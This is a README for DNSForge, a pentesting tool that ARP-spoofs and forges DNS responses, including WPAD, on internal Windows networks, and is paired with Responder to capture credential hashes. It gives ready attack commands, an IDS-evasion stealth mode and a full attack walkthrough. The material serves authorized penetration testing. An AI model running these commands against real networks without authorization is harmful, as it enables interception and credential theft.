 # DNSForge
DNSForge is a network pentesting tool for responding to name resolution requests made to the authoritative DNS server in an internal network landscape, achieving interception and reuse of system credentials without user interaction. This tool is intended to be used alongside [Responder](https://github.com/lgandx/Responder). The original blog post for DNSForge can be found [here](https://aon.com/cyberlabs/dnsforge)

## Attack Customization
One of 2 attack modes must be specified when using DNSForge:

### Relay (Preferred)
In this mode, the tool expects the spoofing target (specified with `-t` or `-tf`) to be set to the victim client(s) (ex. employee/user workstation/laptop). This will cause the interception of packets on their way in from the authoritative nameserver to the victim clients and DNSForge will relay the server's DNS response while forging/poisoning the attacker's IP (specified with `-p`).
```bash
sudo dnsforge relay -i <interface> -p <attacker IP> -t <victim client> -q wpad
```

### Respond
In this mode, the tool expects the spoofing target (specified with `-t` or `-tf`) to be set to the authoritative nameserver (ex. DNS server/Domain Controller). This will cause interception of packets on their way out from the victim clients to the server and DNSForge will adequately respond to the client's DNS request while forging/poisoning the attacker's IP (specified with `-p`).
```bash
sudo dnsforge respond -i <interface> -p <attacker IP> -t <DNS server/domain controller> -q wpad
```

### Stealth (optional)
This option (`-s`) can be applied to both Relay and Respond attack modes. When applied, this option requests the SOA record from the authoritative DNS server and appends it to forged DNS responses for added stealth on networks with IDS/IPS devices. With this mode enabled, the tool produces DNS response messages that exactly match those generated from the authoritative DNS server.
```bash
sudo dnsforge relay -i <interface> -p <attacker IP> -t <victim client> -q wpad -s -ds <DNS server IP> -d <domain name>
```

## Installation
The tool can be installed using [pipx](https://github.com/pypa/pipx)
```bash
pipx install git+https://github.com/AonCyberLabs/DNSForge
```

Alternatively, the tool can be installed using [Poetry](https://python-poetry.org/) after cloning the repo.
```bash
poetry install
poetry shell
```

## Attack Scenario
This tool lends itself in the context of an internal network that consists of Windows workstations and servers. DNSForge utilizes ARP spoofing to redirect DNS requests intended for the DNS server to the attacker's host (when running in respond mode). Upon receiving DNS requests, DNSForge poisons the response with the attacker's IP address and, if in stealth mode configuration, forges the DNS server's SOA record. This induces victims to accept DNS responses from a seemingly legitimate source and performs an adversary-in-the-middle attack. Subsequently, Responder can be run to serve a malicious PAC file and capture hashes.

### Example
Sample scenario of poisoning DNS requests for WPAD issued by victim host:
1. Setup DNS Forge to poison incoming requests:
```sudo dnsforge relay -i <interface> -p <attacker IP> -t <victim client> -q wpad```
2. Finally, run Responder to serve malicious WPAD file and capture hashes:
```sudo responder -I <interface> -P```

## ARP Spoofing
The tool can be supplied either a target IP with `-t`, a file with target IPs with `-tf` or the `--no-arp-spoof` flag that turns off ARP spoofing and lets the user decide the method of redirecting DNS packets to the attacker's host. At least one of these options must be supplied.

### Spoofing Gateway (Respond mode)
In scenarios where the authoritative nameserver does not reside on the same subnet as the attacking host, DNSForge can be configured to perform ARP spoofing against the subnet gateway (either by explicitly supplying the gateway IP as a spoofing target or automatically when a target IP outside the selected interface's subnet is supplied). Since this action can perform denial-of-service against victim clients on the same subnet, DNSForge performs additional checks to verify if IP forwarding is enabled on the attacking host. IP forwarding will ensure that the attacking host acts as the gateway itself and mantains network reliability by forwarding incoming packets to the subnet's gateway IP.

The following command enables IP forwarding on Linux systems: `sudo sysctl -w net.ipv4.ip_forward=1`

Additionally, along with IP forwarding, the following iptables rule is recommended to ensure that only non-DNS traffic is forwarded: `sudo iptables -A FORWARD -i <Interface> -p udp --dport 53 -j DROP`

Alternatively, if the authoritative nameserver resides on a different subnet, consider utilizing the `relay` mode which intercepts DNS responses on their way from the legitimate server to the victim client.

## Usage
```
 ______   ____  _____   ______   ________
|_   _ `.|_   \|_   _|.' ____ \ |_   __  |
  | | `. \ |   \ | |  | (___ \_|  | |_ \_|.--.   _ .--.  .--./) .---.
  | |  | | | |\ \| |   _.____`.   |  _| / .'`\ \[ `/'`\]/ /'`\;/ /__\\
 _| |_.' /_| |_\   |_ | \____) | _| |_  | \__. | | |    \ \._//| \__.,
|______.'|_____|\____| \______.'|_____|  '.__.' [___]   .',__`  '.__.'
                                                       ( ( __))
Author : Apurva Goenka
Version : 1.0.0

usage: dnsforge [-h] -i INTERFACE -p POISON_IP [-ttl TIME_TO_LIVE] [-q QUERY_NAME] [-s] [-v]
                [-ds DNS_SERVER] [-d DOMAIN] (-t TARGET | -tf TARGET_FILE | --no-arp-spoof)
                {respond,relay}

DNS Response Forger

positional arguments:
  {respond,relay}       Respond mode: DNS request packets are intercepted on their way from the
                        client to the server. Relay mode: DNS response packets are intercepted on
                        their way from the server to the client.

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to sniff/poison on
  -p POISON_IP, --poison-ip POISON_IP
                        IP address to forge/poison DNS response
  -ttl TIME_TO_LIVE, --time-to-live TIME_TO_LIVE
                        TTL (seconds) for poisoned DNS response
  -q QUERY_NAME, --query-name QUERY_NAME
                        DNS Query Name to Poison (can specify multiple by separating with ',')
  -s, --stealth         Stealth Mode
  -v, --verbose         Verbose Output

Stealth Mode:
  -ds DNS_SERVER, --dns-server DNS_SERVER
                        IP address of Authoritative DNS Server
  -d DOMAIN, --domain DOMAIN
                        The domain name of the victim domain

ARP Spoofing:
  -t TARGET, --target TARGET
                        ARP spoofing target IP
  -tf TARGET_FILE, --target-file TARGET_FILE
                        ARP spoofing target IP list
  --no-arp-spoof        Turn off ARP spoofing
```

### Copyright
Copyright 2025 Aon plc
